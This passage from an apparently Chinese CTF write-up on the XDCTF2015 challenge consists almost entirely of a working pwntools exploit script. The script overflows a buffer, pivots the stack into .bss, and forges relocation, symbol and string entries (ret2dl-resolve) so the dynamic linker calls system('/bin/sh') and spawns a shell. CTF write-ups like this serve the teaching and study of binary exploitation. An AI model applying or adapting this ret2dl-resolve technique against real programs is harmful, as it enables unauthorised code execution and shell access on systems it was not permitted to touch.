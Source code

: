 构造的ROP：
![image.png](https://i.loli.net/2020/11/17/jsdw3SvAg5oUpH2.png)

## 5.脚本

```python
from pwn import *
context.log_level = 'debug'
context.terminal = ['deepin-terminal', '-x', 'sh' ,'-c']
name = './main'
p = process(name)
elf= ELF(name)
rel_plt_addr = elf.get_section_by_name('.rel.plt').header.sh_addr   #0x8048330
dynsym_addr =  elf.get_section_by_name('.dynsym').header.sh_addr    #0x80481d8
dynstr_addr = elf.get_section_by_name('.dynstr').header.sh_addr     #0x8048278
resolve_plt = 0x08048380
leave_ret_addr = 0x8048458

start = 0x804aa00
fake_rel_plt_addr = start
fake_dynsym_addr = fake_rel_plt_addr + 0x8
fake_dynstr_addr = fake_dynsym_addr + 0x10
bin_sh_addr = fake_dynstr_addr + 0x7
#n就是reloc_arg
n = fake_rel_plt_addr - rel_plt_addr
r_info = (((fake_dynsym_addr - dynsym_addr)/0x10) << 8) + 0x7
str_offset = fake_dynstr_addr - dynstr_addr
fake_rel_plt = p32(elf.got['read']) + p32(r_info)
fake_dynsym = p32(str_offset) + p32(0) + p32(0) + p32(0x12000000)
fake_dynstr = "system\x00/bin/sh\x00\x00"
pay1 = 'a'*108 + p32(start - 20) + p32(elf.plt['read']) + p32(leave_ret_addr) + p32(0) + p32(start - 20) + p32(0x100)
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(pay1)
pay2 = p32(0x0) + p32(resolve_plt) + p32(n) + 'aaaa' + p32(bin_sh_addr) + fake_rel_plt + fake_dynsym + fake_dynstr
p.sendline(pay2)
success(".rel_plt: " + hex(rel_plt_addr))
success(".dynsym: " + hex(dynsym_addr))
success(".dynstr: " + hex(dynstr_addr))
success("fake_rel_plt_addr: " + hex(fake_rel_plt_addr))
success("fake_dynsym_addr: " + hex(fake_dynsym_addr))
success("fake_dynstr_addr: " + hex(fake_dynstr_addr))
success("n: " + hex(n))
success("r_info: " + hex(r_info))
success("offset: " + hex(str_offset))
success("system_addr: " + hex(fake_dynstr_addr))
success("bss_addr: " + hex(elf.bss()))
p.interactive()
```
